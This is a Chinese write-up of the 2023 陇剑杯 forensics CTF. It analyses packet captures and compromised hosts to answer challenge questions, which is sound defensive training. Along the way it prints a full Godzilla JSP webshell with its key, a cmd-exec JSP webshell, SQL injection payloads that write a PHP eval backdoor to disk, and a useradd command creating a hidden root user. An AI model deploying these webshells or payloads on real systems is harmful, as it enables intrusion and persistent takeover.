





# 2023陇剑杯线上&线下赛数据分析 - 先知社区

2023陇剑杯线上&线下赛数据分析

- - -

# 线上赛

## HW

### hard web\_1

> 题目内容：服务器开放了哪些端口，请按照端口大小顺序提交答案，并以英文逗号隔开(如服务器开放了80 81 82 83端口，则答案为80,81,82,83)

打开流量包就能看到，`192.168.162.188`对`192.168.162.180`进行端口扫描[](https://xzfile.aliyuncs.com/media/upload/picture/20231213155046-52f44e0e-998c-1.png)  
所以由此可以确定`192.168.162.188`是黑客IP。根据题目确定，如果端口开放，那么黑客发送带有SYN的TCP段报文，服务器会返回(SYN,ACK)的TCP段报文。  
所以我们只需要寻找响应IP是服务器IP并且发送了(SYN,ACK)报文。  
过滤器写法如下：

```plain
ip.src == 192.168.162.180 and tcp.connection.synack
ip.src == 192.168.162.180 and tcp.flags=0x012
```

可以看到前三个报文是扫描到开放端口返回的(SYN,ACK)报文，其他都是与80端口开放的服务进行通信[](https://xzfile.aliyuncs.com/media/upload/picture/20231213155324-b1435cde-998c-1.png)

那么答案就是**80,888,8888**

### hard web\_2

> 问题内容：服务器中根目录下的flag值是多少？

因为看到了80端口开放，我们看看web服务发生了什么[](https://xzfile.aliyuncs.com/media/upload/picture/20231213155406-ca3e6a12-998c-1.png)  
可以看到黑客对web服务进行路径扫描，服务器返回了大量的404状态，因此我们通过过滤器语法`http.request or http.response.code == 200`查看黑客对服务器的请求以及（如果存在）web页面的响应  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213155438-ddbe33e2-998c-1.png)  
可以看到服务器存在一个`test.jsp`的webshell，黑客执行了一些命令，在最后查看了`shell.jsp`的内容  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213155520-f63d9296-998c-1.png)

我们查看一下shell.jsp的内容，稍微代码美化一下可以得到如下

```plain
<%! String xc = "748007e861908c03";

    class X extends ClassLoader {
        public X(ClassLoader z) {
            super(z);
        }

        public Class Q(byte[] cb) {
            return super.defineClass(cb, 0, cb.length);
        }
    }

    public byte[] x(byte[] s, boolean m) {
        try {
            javax.crypto.Cipher c = javax.crypto.Cipher.getInstance("AES");
            c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(xc.getBytes(), "AES"));
            return c.doFinal(s);
        } catch (Exception e) {
            return null;
        }
    } %>
<%
    try {
        byte[] data = new byte[Integer.parseInt(request.getHeader("Content-Length"))];
        java.io.InputStream inputStream = request.getInputStream();
        int _num = 0;
        while ((_num += inputStream.read(data, _num, data.length)) < data.length) ;
        data = x(data, false);
        if (session.getAttribute("payload") == null) {
            session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data));
        } else {
            request.setAttribute("parameters", data);
            Object f = ((Class) session.getAttribute("payload")).newInstance();
            java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
            f.equals(arrOut);
            f.equals(pageContext);
            f.toString();
            response.getOutputStream().write(x(arrOut.toByteArray(), true));
        }
    } catch (Exception e) {
    }
%>
```

可以看到这是未加密的哥斯拉JSP木马，key是748007e861908c03，那么可以通过解密脚本去解密流量，具体分析请看[这里](https://xz.aliyun.com/t/10556)，这里放一下我自动提取哥斯拉木马的交互流量分析脚本和解密脚本。

```plain
# extract_pcap.py
import pyshark
import pickle

pcap = pyshark.FileCapture(
    "../hard_web.pcap", display_filter="http.request.uri==\"/shell.jsp\" or http.response.code == 200", tshark_path=R"D:\whitehat\tools\Wireshark\tshark.exe")

HTTPchat = {"req": [], "res": []}  # 创建请求和响应的字典


def get_file_data(pkt):  # 获取file_data
    if int(pkt.http.content_length) == 0:  # 检测是否有file_data
        return None
    if int(pkt.http.content_length) != len(pkt.http.file_data):  # 检测file_data内容是否完整
        reassmbledData = pkt.DATA.tcp_reassembled_data.binary_value if (
            "DATA" in pkt) else pkt.TCP.payload.binary_value
        Data = reassmbledData[reassmbledData.find("\r\n\r\n".encode())+4:]
        if int(pkt.http.content_length) == len(Data):  # 这段可以不用加，一般情况下都是完整的
            return Data
    else:
        return pkt.http.file_data.binary_value


for pkt in pcap:
    if int(pkt.number) < 24256:  # 跳到关键请求
        continue
    if pkt.http.chat.split(" ")[0] in ["GET", "POST"]:  # 检测是否是请求
        HTTPchat["req"].append(
            {pkt.number: get_file_data(pkt)})  # 添加请求数据
    if pkt.http.chat.split(" ")[0] in ["HTTP/1.1"]:  # 检测是否是响应
        HTTPchat["res"].append({pkt.http.request_in: get_file_data(pkt)})

pickle.dump(HTTPchat, open("HTTPchat.pkl", "wb"))  # 保存文件
```

```plain
# decrypt.py
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import pickle
import gzip


def decrypt(data):  # 解密
    xc = "748007e861908c03"
    xc = xc.encode("utf-8")
    cipher = AES.new(xc, AES.MODE_ECB)
    cipherResult = cipher.decrypt(data)
    cipherResult = unpad(cipherResult, AES.block_size)
    try:
        result = gzip.decompress(cipherResult).decode("utf-8")
    except Exception as e:
        print(e)
        result = cipherResult.decode(errors="ignore")
    return result


HTTPchat = pickle.load(open("HTTPchat.pkl", "rb"))  # 读取文件
for i in range(len(HTTPchat["req"])):
    req = list(HTTPchat["req"][i].values())[0]
    res = list(HTTPchat["res"][i].values())[0]
    if req == None or res == None:
        continue  # 第一次进行POST没有经过gzip，详细看https://xz.aliyun.com/t/10556
    print(decrypt(req), end="\n***************\n")
    print(decrypt(res), end="\n***************\n")
```

通过脚本解密后就会发现执行了flag的命令  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213155610-14114d76-998d-1.png)  
那么答案就是**flag{9236b29d-5488-41e6-a04b-53b0d8276542}**

### hard web\_3

> 问题内容：该webshell的连接密码是多少？

通过之前了解到key是748007e861908c03，但是这个key是通过`md5(密钥).substring(0,16)`得到的，通过查看流量发现这个连接密码的格式如`key = 1****y`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213155732-44fa5004-998d-1.png)  
理论上可以通过爆破来做，写个脚本看看

```plain
# brute.py
from hashlib import md5
import string
import itertools
import joblib as J


# 计算MD5
def calc_md5(s):
    hashMD5 = md5(s.encode()).hexdigest()
    if hashMD5[:16] == xc:
        print("Found key: ", s)


# 字符集
charset = string.ascii_lowercase + string.digits
# key = 1****y
xc = "748007e861908c03"
# 生成密码
passwords = ["1"+"".join(x)+"y" for x in itertools.product(charset, repeat=4)]
# 多线程跑
with J.parallel_backend("threading", n_jobs=-1):
    J.Parallel()(J.delayed(calc_md5)(x) for x in passwords)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213155754-52025c88-998d-1.png)

最后爆破得到密码是**14mk3y**

## SS

### server save\_1

> 题目内容：黑客是使用什么漏洞来拿下root权限的。格式为：CVE-2020-114514

题目给出了一个Linux系统所有文件的压缩包，和一个流量包。我们看流量包使用gobuster进行目录爆破，最后发现访问`hello\greeting`返回200，并且在Linux系统文件的根目录发现helloworld文件夹，进去发现pom.xml，直接google搜索关键词发现github仓库，链接在这里[https://github.com/reznok/Spring4Shell-POC](https://github.com/reznok/Spring4Shell-POC)。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213155842-6edcf6f6-998d-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213155905-7ca36838-998d-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213155936-8f1094a0-998d-1.png)

那么答案就显而易见的在github仓库里有介绍，那么答案就是：**CVE-2022-22965**

### server save\_2

> 题目内容：黑客反弹shell的ip和端口是什么，格式为：10.0.0.1:4444

继续通过流量包，我们看到最后一条记录看到执行了`bash bbbb.sh`：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160003-9ef7e2ba-998d-1.png)  
在helloworld目录下发现bbbb.sh，内容如下，是个反弹shell的命令：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160024-aba823ee-998d-1.png)  
那么答案就是**192.168.43.128:2333**。

### server save\_3

> 题目内容：黑客的病毒名称是什么？ 格式为：filename

我们先从几个目录开始寻找，有如下几个目录需要注意：

-   /usr/local/tomcat # 运行服务的目录
-   /root # root用户目录
-   /home # 普通用户目录

运行的服务目录知识看到了shell.jsp的内容，没有找到更有用的信息。

```plain
<%
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
int a = -1;
byte[] b = new byte[2048];
while ((a = in.read(b)) != -1) {
    out.println(new String(b));
}
%>
```

root用户下也没有什么有用的信息，但是可以看到/home下存在一个guest用户，进入看到有个main文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160056-beb4ff34-998d-1.png)  
我们使用`file`命令看看是什么东西，看到是一个elf文件。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160119-ccab3c70-998d-1.png)  
把main文件放到微步云沙箱里面再看看是不是病毒，发现是病毒。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160138-d7b780ec-998d-1.png)  
那么答案就是**main**。

### server save\_4

> 题目内容：黑客的病毒运行后创建了什么用户？请回答用户名与密码：username:password

我们看到微步云沙箱对于病毒main的分析，看到执行了useradd的命令，将ll用户添加到root用户组中，并且使用的-p值是加盐"salt"的123456：`$1$salt$638tR8bROOvPnPklDQ9Vf`

```plain
useradd -p openssl passwd -1 -salt 'salt' 123456 ll -o -u 0 -g root -G root
应该转变为
useradd -p `openssl passwd -1 -salt 'salt' 123456` ll -o -u 0 -g root -G root
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160213-eceb3062-998d-1.png)  
并且能在`/etc/shadow`文件中看到ll的用户信息：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160232-f845c0e4-998d-1.png)  
那么答案就是**ll:123456**。

### server save\_5

> 服务器在被入侵时外网ip是多少? 格式为：10.10.0.1

在微步云沙箱也能看到这个病毒访问了`ip-api.com/json/`。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160339-20244f5e-998e-1.png)  
同时我们在guest目录下看到`.log.txt`可以看到查询IP`172.105.202.239`的信息，并且与一些入侵行为日志在一个文件，那么这个ip就是黑客的ip。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160359-2c00ffc0-998e-1.png)  
那么答案就是**172.105.202.239**。

### server save\_6

> 病毒运行后释放了什么文件？格式：文件1,文件2

我们可以看到`.idea`文件夹的时间在病毒运行后，并且在微云沙箱也存在相关文件释放的记录：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160418-3752ab80-998e-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160435-412ebb6c-998e-1.png)  
那么存在在`.idea`目录下的两个文件就是释放的文件。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160458-4ef201a0-998e-1.png)  
答案：**lolMiner,mine\_doge.sh**。

### server save\_7

> 矿池地址是什么？ 格式：domain:1234

查看`mine_doge.sh`文件，这是矿池的相关配置的文件。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160516-5a08d726-998e-1.png)  
那么答案就是**doge.millpools.cc:5567**。

### server save\_8

> 黑客的钱包地址是多少？格式：xx:xxxxxxxx

同7，黑客钱包答案是：**DOGE:DRXz1q6ys8Ao2KnPbtb7jQhPjDSqtwmNN9**。

## WS

### Wireshark1\_1

> 题目内容：被入侵主机的IP是？

打开可以看到这是个telnet服务的流量，直接输入telnet查看流量：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160652-92ffc9cc-998e-1.png)  
可以看到是`192.168.246.1`对`192.168.246.28`进行请求，那么telnet开在  
`192.168.246.28`上面，那么答案就是**192.168.246.28**。

### Wireshark1\_2

> 题目内容：被入侵主机的口令是？

直接追踪TCP流可以看到密码是：`youcannevergetthis`：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160715-a06dcb68-998e-1.png)  
那么答案就是**youcannevergetthis**。

### Wireshark1\_3

> 题目内容：用户目录下第二个文件夹的名称是？

追踪流可以看到黑客执行了`ls`命令，返回了文件夹内的文件，可以看到第二个文件是`Downloads`，其中例如`[01;34m`此类是颜色代码。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160732-aafc8c40-998e-1.png)  
那么答案就是**Downloads**。

### Wireshark1\_4

> 题目内容：/etc/passwd中倒数第二个用户的用户名是？

还是追踪流，最后黑客执行了`cat /etc/passwd`，返回的倒数第二个用户名就是`mysql`，那么答案就是**mysql**。

## IR

### IncidentResponse\_1

> 题目内容：你是公司的一名安全运营工程师，今日接到外部监管部门通报，你公司网络出口存在请求挖矿域名的行为。需要立即整改。经过与网络组配合，你们定位到了请求挖矿域名的内网IP是10.221.36.21。查询CMDB后得知该IP运行了公司的工时系统。（虚拟机账号密码为：root/IncidentResponsePasswd）挖矿程序所在路径是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）

题目给了个ova文件，我们用虚拟机打开，登录进去查看是个ubuntu系统，使用`netstat -pantu`查看对外开放的服务，发现有ssh，因为这个虚拟机本身很难用，所以进行一下网络配置我们登录ssh。然后我们还能看到mysql开放在`127.0.0.1:3306`，nginx服务开放在`0.0.0.0:80`上，`127.0.0.1:8080`上运行一个java程序，并且这个java程序还与mysql有交互。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160820-c7637952-998e-1.png)  
最后在`0.0.0.0:44448 0.0.0.0:47598`开放了redis，这个服务比较奇怪。有以下几个原因：

-   redis默认端口是6379，这个端口不是默认端口。
-   redis默认不开放外网访问，这个服务开放了外网访问。
-   redis本来是TCP服务，这个服务是UDP服务。
-   同时开放两个端口，并且开放端口会改变。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160757-b9eb6cee-998e-1.png)  
并且在root目录下存在`.bash_history`，我们可以查看执行过什么命令。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160845-d67ceedc-998e-1.png)  
具体内容不列举了，大概如下：

-   能发现在`/home/app`下有个`renren-admin.jar`，并且启动在当前目录还有一个nohup.log日志。
-   对于nginx进行了配置，查看nginx的配置发现访问路径`/renren-admin`转发至`http://127.0.0.1:8080/renren-admin`，那么就可以说通启动的java程序和nginx的关系。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160912-e65281be-998e-1.png)

现在回到redis上，我们在`/etc/redis`上查看一下这个redis是怎么配置的，我们打开`redis.conf`发现这个不是正常的redis配置文件，并且在里面发现敏感词`pools`，`WALLET`等字样。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213160931-f182f546-998e-1.png)  
那么把这个`redis-server`提出来，放到微步云沙箱看看是不是挖矿软件。可以看到这个是`xmrig`挖矿软件。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213161002-0408033c-998f-1.png)  
那么这道题答案就是`/etc/redis/redis-server`\=>**6f72038a870f05cbf923633066e48881**。

### IncidentResponse\_2

> 题目内容：挖矿程序连接的矿池域名是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）

由第一问所见，矿池域名是`donate.v2.xmrig.com`，那么答案就是**3fca20bb92d0ed67714e68704a0a4503**。

### IncidentResponse\_3

> 题目内容：攻击者入侵服务器的利用的方法是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）  
> 题目提示：答案md5值前两位为3e

还是第一问所说，其实对外开放的服务只有nginx，nginx上挂了一个java程序，并且这个java程序还是输出日志`nohup.log`，查看日志是否有关键信息。日志包含一些`renren-admin`的启动信息，以及报错日志。可以看到存在大量的shiro序列化的报错信息。那么猜测黑客就是利用shiro的反序列化漏洞进行攻击利用的，那么答案就是`shirodeserialization`\=>**3ee726cb32f87a15d22fe55fa04c4dcd**。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213161516-bf263f3a-998f-1.png)

### IncidentResponse\_4

> 题目内容：攻击者的IP是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）

除了第三问的`nohup.log`，还可以在之前的nginx配置文件中找到`access_log`和`error_log`的相关配置  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213161538-cc6eace0-998f-1.png)  
那么查看这两个日志发现，这个`81.70.166.3`进行了大量的SQL注入测试和目录扫描。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213161951-633ea2b0-9990-1.png)  
那么攻击者的IP就是`81.70.166.3`\=>**c76b4b1a5e8c9e7751af4684c6a8b2c9**。

### IncidentResponse\_5

> 题目内容：攻击者发起攻击时使用的User-Agent是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）

同第4问，查看`access.log`能发现攻击者使用的UA，攻击者使用两种UA：

-   Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36\`，
-   Mozilla/5.0 (compatible; Baiduspider/2.0; +[http://www.baidu.com/search/spider.html](http://www.baidu.com/search/spider.html))  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20231213162129-9dd81226-9990-1.png)  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20231213162155-ad6ad390-9990-1.png)  
    提交尝试两次即可，分别是**44748ef7eb6e23c3aea256cf497157e6**，**6ba8458f11f4044cce7a621c085bb3c6**

### IncidentResponse\_6

> 题目内容：攻击者使用了两种权限维持手段，相应的配置文件路径是？(md5加密后以a开头)（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）

对于权限维持，常见的手段如连接所示[https://bypass007.github.io/Emergency-Response-Notes/privilege/第4篇：Linux权限维持--后门篇.html](https://bypass007.github.io/Emergency-Response-Notes/privilege/%E7%AC%AC4%E7%AF%87%EF%BC%9ALinux%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81--%E5%90%8E%E9%97%A8%E7%AF%87.html)。通过对比可以看到在`/root/.ssh`发现有`id_rsa.pub`和`authorized_keys`，并且`authorized_keys`创建时间比`id_rsa.pub`晚，那么可以猜测攻击者通过上传公钥并且将其更名为authorized\_keys从而实现免密登录进行权限维持。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213162220-bbdedb4c-9990-1.png)  
那么答案就是`/root/.ssh/authorized_keys`\=>**a1fa1b5aeb1f97340032971c342c4258**。

### IncidentResponse\_7

> 题目内容：攻击者使用了两种权限维持手段，相应的配置文件路径是？(md5加密后以b开头)（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）

权限维持可以查看crontab有没有定时任务，没有发现定时任务。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213162912-b1b5418c-9991-1.png)  
又回到之前的redis服务，服务开机自动启动并且还是不间断的重启，那么可能是**服务设置**问题，寻找服务文件。发现服务文件在`/lib/systemd/system/redis.service`。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213162934-be96e6f8-9991-1.png)  
查看内容可知，这个挖矿程序的不断重启就是由这个服务文件导致，这也是一种权限维持手段。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213162954-ca6c07b0-9991-1.png)  
并且答案提示是b开头，那么答案就是`/lib/systemd/system/redis.service`\=>**b2c5af8ce08753894540331e5a947d35**。

## SSW

### SmallSword\_1

> 题目内容：连接蚁剑的正确密码是******\_\_******?（答案示例：123asd）

既然题目说明蚁剑，那么我们直接过滤http流，可以看到是一个`sqlilab`的网站，我们查看注入的语句，可以看到进行了写文件操作，将`@@basedir`等结果写入到2.txt。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213163019-d9aebf42-9991-1.png)

```plain
GET /sqlii/Less-7/index.php?id=-1')) union select 1,@@basedir,@@datadir into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqlii\\Less-7\\2.txt" --  HTTP/1.1
```

并且请求了2.txt可以看到响应内容如下。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213163047-ea18edee-9991-1.png)  
继续往下看，关注2988和3075这两个数据包，内容分别是：

```plain
# 2988
GET /sqlii/Less-7/index.php?id=-1')) union select 1,2,"<?php @eval($_POST["6ea280898e404bfabd0ebb702327b18f"]);?>" into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqlii\\Less-7\\1.php" HTTP/1.1

# 3075
GET /sqlii/Less-7/index.php?id=-1')) union select 1,2,"<?php @eval($_POST["6ea280898e404bfabd0ebb702327b18f"]);?>" into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqlii\\Less-7\\info1.php" HTTP/1.1
```

典型的一句话木马，将其写入至1.php和info1.php。但是这个写的有点问题，难怪后面的对于info1.php请求会返回404，存在这两点问题

-   首先没有加注释符，前面对于2.txt的写入时加了注释符`--`，应该加注释符
-   第二点就是没有对一句话木马里面的双引号进行转义，导致写入失败，应该将`"`转义为`\"`，或者是将双引号改成单引号。

并且后面对于`info1.php`的交互，返回的信息格式不是`1 2 {执行结果}`，但是密码没有改变。那么连接密码和本题的答案就是**6ea280898e404bfabd0ebb702327b18f**。

### SmallSword\_3

> 题目内容：攻击者下载到的flag是******\_\_******?(答案示例：flag3{uuid})

我们按照流量顺序来作题，继续往下看，我们看到这条流量读取了一个exe文件，如下图所示：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213163122-ff0be5d0-9991-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213170445-a8c628de-9996-1.png)  
读取的文件名是`huorong.exe`，下载下来通过云沙箱发现，此exe释放了一个`test.jpg`。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213171749-7c71df42-9998-1.png)  
打开发现存在PNG头，是个PNG文件，并且010editor运行模板发现存在CRC校验错误。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213171817-8d0f93bc-9998-1.png)  
于是进行CRC高度爆破，更改高度为`769`，查看图片获得flag。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213172036-dfdff654-9998-1.png)  
于是答案就是**flag3{8f0dffac-5801-44a9-bd49-e66192ce4f57}**。

### SmallSword\_2

> 攻击者留存的值是******\_\_******?(答案示例：d1c3f0d3-68bb-4d85-a337-fb97cf99ee2e)

继续查看http流，在倒数第二个POST请求中，可以发现对`hacker.txt`写入了一个值，通过base64解码写入的值，可以看到是一个uuid。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213173822-5b0c38c2-999b-1.png)  
那么答案就是`YWQ2MjY5YjctM2NlMi00YWU4LWI5N2YtZjI1OTUxNWU3YTkxIA==`\=>**ad6269b7-3ce2-4ae8-b97f-f259515e7a91**  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213172103-efb2d452-9998-1.png)

## EW

### ez\_web\_1

> 题目内容：服务器自带的后门文件名是什么？（含文件后缀）

首先做个简单的配置，在wireshark中多加一列，字段为`http.response_for.uri`，如下图所示：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213172435-6e7aaa80-9999-1.png)  
过滤所有的200状态的响应`http.response.code == 200`。这样就能看到响应与相应的请求URI。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213172941-24c1f320-999a-1.png)  
查看HTTP流，能够看到攻击者使用后门文件，写个了`d00r.php`到服务器上。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213173106-57979778-999a-1.png)

因此题目答案是**ViewMore.php**

### ez\_web\_2

> 题目内容：服务器内网IP是多少？

继续往下看，发现对`d00r.php`多次请求，挨个查看发现有一个ifconfig命令执行。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213173128-648431b2-999a-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213173213-7f85eb0e-999a-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213173232-8ac8b2e4-999a-1.png)  
那么题目答案就是**192.168.101.132**

### ez\_web\_3

> 题目内容：服攻击者往服务器中写入的key是什么？

继续往下查看流量包，发现执行了一个`cat /passwd`，返回结果是`7e03864b0db7e6f9`。在最后写入一个文件`k3y_f1le`，内容是一串base64字符串。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213173343-b5018ebe-999a-1.png)  
我们在本地执行一下这个命令。可以看到是一个ZIP文件。但是解压里面的key.txt文件需要密码，因此尝试密码7e03864b0db7e6f9。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213173443-d902245e-999a-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213173636-1c4aa7fe-999b-1.png)  
